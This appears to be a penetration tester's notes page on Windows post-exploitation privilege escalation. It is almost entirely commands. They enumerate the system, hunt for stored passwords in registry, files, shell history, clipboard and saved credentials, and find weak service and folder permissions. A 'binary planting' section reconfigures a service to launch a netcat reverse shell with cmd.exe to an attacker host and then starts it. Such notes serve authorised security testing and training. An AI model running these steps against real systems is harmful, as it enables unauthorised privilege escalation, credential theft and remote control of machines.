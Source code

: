 
##### What system are we connected to?

```
Get-WmiObject -Class win32_OperatingSystem | select Version,BuildNumber
Get-WmiObject -Class win32_Process 
Get-WmiObject -Class win32_Service
Get-WmiObject -Class win32_Bios
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

##### Get tokens and privileges 

```
whoami /priv
Get-WmiObject win32_useraccount | Select name,sid
```

##### Get the hostname and username (if available)

```
hostname
echo %username%
```

##### Get users

```
net users
net user [username]
```

##### Get groups

```
get-LocalGroup | ft Name, SID
```

##### Networking stuff

```
ipconfig /all
```

##### Get session history 

```
Get-Content $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine
Get-Content (Get-PSReadlineOption).HistorySavePath
```

##### Get user clipboard

```
Get-Clipboard
```

##### Find Printers

```
route print
```

##### ARP-arific

```
arp -A
```

##### Which protection settings enabled

```
Get-MpComputerStatus
```

##### Active network connections

See [[Find Open Ports]]
```
netstat -ano
```

##### Firewall fun (Win XP SP2+ only)

```
netsh firewall show state
netsh firewall show config
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
```

##### Scheduled tasks, see [[Scheduled Tasks]] and [[4. Post Exploitation/Privilege Escalation/Windows/Concepts and Vulnerabilities/Scheduled Tasks/1. Guide|Guide]]

```
schtasks /query /fo LIST /v
```

##### Running processes to started services

```
tasklist /SVC
net start
```

##### Driver madness
```
DRIVERQUERY
```

##### WMIC fun (Win 7/8 -- XP requires admin), use the `wmic_info` script

```
wmic /?
```

##### [[Saved Credentials]] 

```
cmdkey /list
```

##### WMIC: check patch level

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
```
wmic service get name,displayname,pathname,startmode
```
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto"
```
```
wmic product get name, version, vendor
```

##### Search pathces for given patch

```
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."
```

##### AlwaysInstallElevated fun

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

##### AutoRun (See [[AutoRun SysInternals]])

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
```
reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
```

##### [[Registry Passwords]] 

```
reg query HKLM /f password /t REG_SZ /s
```
```
reg query HKCU /f password /t REG_SZ /s
```

##### Other commands to run to hopefully get what we need

```
dir /s *pass* == *cred* == *vnc* == *.config*
```
```
findstr /si password *.xml *.ini *.txt
```
```
reg query HKLM /f password /t REG_SZ /s
```
```
reg query HKCU /f password /t REG_SZ /s
```

##### Service permissions

```
sc query
```
```
sc qc [service_name]
```
See [[DLL Hijacking]]
```
sc qc dllsvc (See [[DLL Hijacking]] )
```
If NT Auth, see [[RegSVC Writable]]
```
sc qc regsvc
```
If SYSTEM SERVICE_START_NAME, see [[Insecure Service Executables]]
```
sc qc filepermsvc
```

##### Accesschk stuff

```
accesschk.exe /accepteula (always do this first!!!!!)
```
```
accesschk.exe /accepteula -uwcqv user daclsvc
```
```
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
```
```
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
```
```
accesschk.exe -ucqv [service_name]
```
```
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

##### Find all weak folder permissions per drive.

```
accesschk.exe -uwdqs Users c:\
```
```
accesschk.exe -uwdqs "Authenticated Users" c:\
```

##### Find all weak file permissions per drive.

```
accesschk.exe -uwqs Users c:\*.*
```
```
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

##### Binary planting

```
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
```
```
sc config [service_name] obj= ".\LocalSystem" password= ""
```
```
sc qc [service_name] (to verify!)
```
```
net start [service_name]
```

##### Driver querying

```
driverquery /v /fo csv
```
```
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select Object ‘Display Name’, ‘Start Mode’, Path
```
